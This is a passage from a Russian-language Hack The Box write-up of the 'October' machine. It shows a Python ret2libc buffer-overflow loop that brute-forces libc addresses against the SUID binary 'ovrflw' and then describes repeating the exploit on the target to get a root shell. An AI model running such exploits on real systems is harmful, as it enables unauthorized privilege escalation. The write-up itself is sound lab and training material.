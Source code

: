 ```python
sh_addr = little_endian(libc_addr + sh_offset)

payload = junk + system_addr + exit_addr + sh_addr

for i in range(1, 1001):
	print 'Try: %s' % i
	call(['./ovrflw', payload])
```

После запуска перебора на 155-й попытке мне вернулся шелл.

[![exploit-py.png]({{ "/img/htb/boxes/october/exploit-py.png" | relative_url }})]({{ "/img/htb/boxes/october/exploit-py.png" | relative_url }})
{: .center-image}

# В боевых условиях

Снова переместившись в сессию на October, я выполню те же манипуляции для того, чтобы узнать необходимые мне значения адресов памяти.

[![october-get-addresses.png]({{ "/img/htb/boxes/october/october-get-addresses.png" | relative_url }})]({{ "/img/htb/boxes/october/october-get-addresses.png" | relative_url }})
{: .center-image}

И проведу эксплуатацию прямо из Bash.

[![october-ovrflw-pwn.png]({{ "/img/htb/boxes/october/october-ovrflw-pwn.png" | relative_url }})]({{ "/img/htb/boxes/october/october-ovrflw-pwn.png" | relative_url }})
{: .center-image}

Я ожидал, что перебор займет хотя бы несколько минут, но на шестой попытке уязвимый бинарь уже сдался.

> «Октябрь» горит, убийца плачет...

October пройден :triumph:

![trophy.png]({{ "/img/htb/boxes/october/trophy.png" | relative_url }})
{: .center-image}


[//]: # (2019-10-08)